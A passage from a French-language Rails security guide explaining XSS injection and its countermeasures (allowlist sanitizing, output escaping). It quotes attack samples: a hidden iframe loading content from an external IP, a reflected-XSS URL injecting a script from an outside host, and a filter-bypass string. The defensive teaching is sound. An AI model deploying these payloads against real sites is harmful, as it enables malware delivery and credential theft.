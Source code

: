 ```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

Cela charge du HTML et/ou du JavaScript arbitraire à partir d'une source externe et l'intègre comme partie du site. Cet `iframe` est issu d'une véritable attaque contre des sites italiens légitimes utilisant le [framework d'attaque Mpack](https://isc.sans.edu/diary/MPack+Analysis/3015). Mpack tente d'installer des logiciels malveillants via des failles de sécurité dans le navigateur web - avec beaucoup de succès, 50% des attaques réussissent.

Une attaque plus spécialisée pourrait recouvrir l'ensemble du site web ou afficher un formulaire de connexion qui ressemble à l'original du site, mais qui transmet le nom d'utilisateur et le mot de passe au site de l'attaquant. Ou elle pourrait utiliser CSS et/ou JavaScript pour masquer un lien légitime dans l'application web et afficher à sa place un autre lien qui redirige vers un faux site web.

Les attaques par injection réfléchie sont celles où la charge utile n'est pas stockée pour la présenter ultérieurement à la victime, mais incluse dans l'URL. En particulier, les formulaires de recherche échouent à échapper à la chaîne de recherche. Le lien suivant présentait une page qui indiquait que "George Bush avait nommé un garçon de 9 ans président...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Contre-mesures

_Il est très important de filtrer les entrées malveillantes, mais il est également important d'échapper les sorties de l'application web_.

Surtout pour XSS, il est important de faire _un filtrage des entrées autorisées plutôt que restreint_. Le filtrage par liste autorisée indique les valeurs autorisées par opposition aux valeurs non autorisées. Les listes restreintes ne sont jamais complètes.

Imaginez qu'une liste restreinte supprime `"script"` de l'entrée utilisateur. Maintenant, l'attaquant injecte `"<scrscriptipt>"`, et après le filtrage, `"<script>"` reste. Les versions antérieures de Rails utilisaient une approche de liste restreinte pour les méthodes `strip_tags()`, `strip_links()` et `sanitize()`. Ainsi, ce type d'injection était possible :

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

Cela renvoyait `"some<script>alert('hello')</script>"`, ce qui permettait une attaque. C'est pourquoi une approche de liste autorisée est meilleure, en utilisant la méthode `sanitize()` mise à jour de Rails 2 :
```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

Cela permet uniquement les balises données et fait du bon travail, même contre toutes sortes de trucs et de balises mal formées.

Ensuite, _il est bon de pratiquer l'échappement de toutes les sorties de l'application_, en particulier lors de la réaffichage de l'entrée de l'utilisateur, qui n'a pas été filtrée (comme dans l'exemple du formulaire de recherche précédent). Utilisez la méthode `html_escape()` (ou son alias `h()`) pour remplacer les caractères d'entrée HTML `&`, `"`, `<` et `>` par leurs représentations non interprétées en HTML (`&amp;`, `&quot;`, `&lt;` et `&gt;`).
